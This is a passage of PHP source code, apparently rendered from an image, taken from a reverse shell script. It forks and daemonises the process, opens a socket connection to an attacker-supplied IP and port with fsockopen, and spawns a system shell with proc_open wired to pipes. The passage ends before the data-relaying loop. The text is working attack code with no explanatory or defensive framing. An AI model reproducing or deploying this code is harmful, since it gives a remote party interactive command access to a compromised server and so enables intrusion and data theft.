 ```

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

```